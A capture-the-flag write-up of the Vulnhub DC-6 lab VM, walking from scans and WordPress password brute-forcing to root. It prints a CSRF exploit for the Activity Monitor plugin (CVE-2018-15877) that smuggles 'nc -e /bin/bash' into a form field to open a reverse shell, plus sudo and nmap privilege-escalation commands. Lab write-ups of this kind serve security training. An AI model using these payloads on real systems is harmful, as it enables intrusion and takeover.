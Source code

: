 ```yaml
---
layout: PostSimple
date: 2019-11-21
title:     "Vulnhub - DC 6"
tags: ['easy','wordpress','sudo']
categories: Vulnhub
---
```


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc6/1.png)<br/>
Today, We are going to pwn DC 6 by DCAU7 from Vulnhub


## Description

>DC-6 is another purposely built vulnerable lab with the intent of gaining experience in the world of penetration testing.
This isn't an overly difficult challenge so should be great for beginners.
The ultimate goal of this challenge is to get root and to read the one and only flag.
Linux skills and familiarity with the Linux command line are a must, as is some experience with basic penetration testing tools.
For beginners, Google can be of great assistance, but you can always  tweet me at @DCAU7 for assistance to get you going again. But take note:  I won't give you the answer,instead, I'll give you an idea about how  to move forward.

Download Link:<https://www.vulnhub.com/entry/dc-6,315/>


Lets Begin with our Initial Scan

## Nmap Scan Results

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 3e:52:ce:ce:01:b6:94:eb:7b:03:7d:be:08:7f:5f:fd (RSA)
|   256 3c:83:65:71:dd:73:d7:23:f8:83:0d:e3:46:bc:b5:6f (ECDSA)
|_  256 41:89:9e:85:ae:30:5b:e0:8f:a4:68:71:06:b4:15:ee (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Did not follow redirect to http://wordy/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
MAC Address: 08:00:27:45:90:BE (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Looks like there is a HTTP port is open so lets start our Gobuster

## Gobuster Result
```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.0.2.11
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2019/11/28 17:29:09 Starting gobuster
===============================================================
/.htaccess (Status: 403)
/.hta (Status: 403)
/.htpasswd (Status: 403)
/index.php (Status: 200)
/server-status (Status: 403)
/wp-admin (Status: 301)
/wp-includes (Status: 301)
/wp-content (Status: 301)
===============================================================
2019/11/28 17:29:11 Finished
===============================================================
```
Nothing Interesting

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc6/1.png)<br/>
Since it is a wordpress site , Lets run ``Wpscan`` to enumerate any user or find any vulnerable plugins.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc6/2.png)

We found 5 users 
> admin,jens,graham,mark,sarah
Lets start bruteforcing them.

But the creator give us a hint 
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc6/3.png)

Now we can bruteforce easily!<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc6/4.png)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc6/5.png)

We got password for mark ``helpdesk01``

## Getting Shell

After Logged in
One thing i observerd is Activity monitor. It looks like a Plugin so it might have an exploit.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc6/6.png)

>https://www.exploit-db.com/exploits/45274

Yeah Found it!!

First things first, I decided to check the exploit and configure it (if required).

I changed some 
```
1. http://localhost:8000 to http://wordy
2. Removed -lnvp I want to listen on my machine.
```

```
<html>
  <!--  Wordpress Plainview Activity Monitor RCE
        [+] Version: 20161228 and possibly prior
        [+] Description: Combine OS Commanding and CSRF to get reverse shell
        [+] Author: LydA(c)ric LEFEBVRE
        [+] CVE-ID: CVE-2018-15877
        [+] Usage: Replace 127.0.0.1 & 9999 with you ip and port to get reverse shell
        [+] Note: Many reflected XSS exists on this plugin and can be combine with this exploit as well
  -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://wordy/wp-admin/admin.php?page=plainview_activity_monitor&tab=activity_tools" method="POST" enctype="multipart/form-data">
      <input type="hidden" name="ip" value="google.fr| nc -e /bin/bash 10.0.2.18 9999" />
      <input type="hidden" name="lookup" value="Lookup" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

Saved it and Open that ``.html`` and listening on my machine.
We got the shell


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc6/7.png)


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc6/8.png)

Found ``graham`` password on mark's directory

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc6/9.png)

Logged in as ``graham``

## Privilege Escalation

While enumerating i found a ``backup.sh`` on ``jens`` directory.

But i cant execute it.
I checked ``sudo -l`` on ``graham``

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc6/10.png)

This means we can run with sudo rights, we also have write permission on that file.
So I replaced with giving us shell.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc6/11.png)

And Run the script
We became ``jens`` now and run ``sudo -l``

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc6/12.png)

It looks like we can run ``nmap`` with sudo rights.

I searched on ``GTFObins``

> <https://gtfobins.github.io/gtfobins/nmap/>

```
echo 'os.execute("/bin/sh")' > $TF

nmap --script=$TF
```

We created our nmap script and make it run to give us root.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc6/13.png)

We got the ``Flag`` and Root !!

